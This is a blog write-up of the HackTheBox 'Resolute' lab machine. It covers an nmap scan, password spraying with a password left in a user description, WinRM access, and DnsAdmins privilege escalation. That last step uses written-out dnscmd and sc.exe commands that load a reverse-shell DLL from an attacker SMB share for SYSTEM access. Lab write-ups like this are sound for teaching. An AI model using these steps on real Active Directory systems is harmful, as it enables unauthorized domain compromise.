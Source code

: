 ```yaml
---
layout: post
title:	"Resolute Writeup"
date:	2020-06-06
categories:
    - blog
tags:
    - hackthebox
---
```


![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img1.png)

I had some problems the last week and couldn't publish this report I wrote in Decembre.

### User Flag

Let’s start by enumerating all the service on the machine with a TCP scan:

~~~
root@kali:~# nmap -T4 -sS 10.10.10.169 -p-
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-07 06:56 EDT
Nmap scan report for 10.10.10.169
Host is up (0.056s latency).
Not shown: 65511 closed ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49687/tcp open  unknown
49709/tcp open  unknown
49873/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 38.71 seconds

~~~

Using enum4linux, we find a lot of users:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img2.png)

There is an interesting Description for the user Marko, it seems that the Administrator have put the user password in the description.
Using the credenziali marko:Welcome123! We are not able to log in smb:


~~~
root@kali:~# smbclient -L \\10.10.10.169 -U marko
Enter WORKGROUP\marko's password: 
session setup failed: NT_STATUS_LOGON_FAILURE

~~~

We can try to save all the users in a file and then use the same password for all of them. For this purpose, I used Crack Map Exec.

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img3.png)

And yes, we have an access for the user melanie. Using [evil-winrm](https://github.com/Hackplayers/evil-winrm), we can open a powershell sessione on the machine.

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img4.png)

After some enumeration, we can find a hidden directory PSTranscripts in C:\.

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img5.png)

Inside the subdirectory 20191203 there is a txt file:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img6.png)

The file contains the password for the user ryan:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img7.png)

### Root Flag

With evilwinrm, we can access as ryan. The user ryan, is member of the group “MEGABANK\DnsAdmins”. There is a famous privilege escalation when an user is member of DnsAdmins, the attack is described [here](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise). We need to create our custom DLL, we can use msfvenom to create a reverse shell in a DLL file:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img8.png)

Then, we can use Impacket to run a smb server to share our custom DDL:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img9.png)

Inject our custom DLL and stop and run again the dns service with the following command:

~~~
dnscmd Resolute /config /serverlevelplugindll \\10.10.14.27\SYRION\syrion.dll
sc.exe \\Resolute stop dns
sc.exe \\Resolute start dns
~~~

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img10.png)

And we get a reverse shell with System privilege:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img11.png)



